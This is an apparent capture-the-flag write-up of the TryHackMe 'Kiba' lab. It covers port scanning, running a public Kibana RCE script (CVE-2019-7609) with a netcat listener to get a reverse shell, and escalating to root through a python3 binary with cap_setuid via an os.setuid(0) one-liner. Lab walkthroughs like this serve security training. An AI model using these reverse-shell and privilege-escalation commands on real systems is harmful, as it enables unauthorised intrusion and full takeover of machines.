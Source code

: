 ## Kiba Room From Try Hack Me.

## Difficulty: Easy

## www.tryhackme.com

# Question 1

To find the answer to this question we can simply google it.

When we first paste the IP into google we come across a page with seemingly not alot on it.

![image](https://user-images.githubusercontent.com/66257304/205105281-ded48b5c-170b-4b83-9494-bfd174f9e9af.png)

If we check the page source, we find nothing.

# Rustscan

After finding nothing on the webpage, we should now run a rustscan using the command - `rustscan -a [IP]`

This will return all of the open ports on the machine

![image](https://user-images.githubusercontent.com/66257304/205105864-c9543b6f-dc02-4c1b-8732-581b35c908e5.png)

We see that ports 22, 80, 5044, 5601 are open.
Port 22 being ssh - port 80 being http
But what are the other 2.

If we go to the webpage again but this time enter the port number 5601 instead of port 80?

![image](https://user-images.githubusercontent.com/66257304/205106601-7e5661a1-e4f1-4d6e-9c1d-761255c98333.png)

We come to another webpage, this time with more content.

# Question 2

To find the answer to this question we need to try and locate where the version is, we can do this by looking at all of the tabs on the left and seeing if they lead anywhere

If we go to the management tab, we can see that the version number is displayed there.

# Question 3

To find the answer to this, we can google what the web page is using which is kibana and elasticsearch.

Doing this we come across an exploit which has a CVSS score of 10, which is the highest score.
This exploit will probably be it.

# Question 4

If we google the CVV we found, we come across a exploit script avaliable to us.

We can use this to exploit the system.

Looking at the page, we need to use the script like this.

![image](https://user-images.githubusercontent.com/66257304/205108179-a8a8abff-167b-481a-ba01-b3a89cda20ab.png)

First start a reverse listener using the command `nc -lvnp [PORT]`

So if we download the script, and run it using the command `python2 CVE-2019-7609-kibana-rce.py -u [IP:5601] -host [YOUR IP] -port [NC PORT] --shell`

We see that we now have a reverse shell!

We can go to kibanas home directory and get the user.txt file

# Question  5/6

To answer this question we need to do a bit of googling once again.

# Question 7

Once we find the answer to that once, we can now run the command we found on the target system.

We find that we can see that there was a secret directory in kiba's home directory called hackmeplease containing a file called python3 and if we go and have a look at this file, it is owned by root.

![image](https://user-images.githubusercontent.com/66257304/205110215-37316df6-8378-4e35-b1f5-3c805a929e1c.png)

Having a look, we see `cap_setuid`.

Googling this means we can change our uid to root using the file python3.

To do this we can run the command `./python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'`

We now have a root shell and can go to the root directory to find root.txt and complete the room.
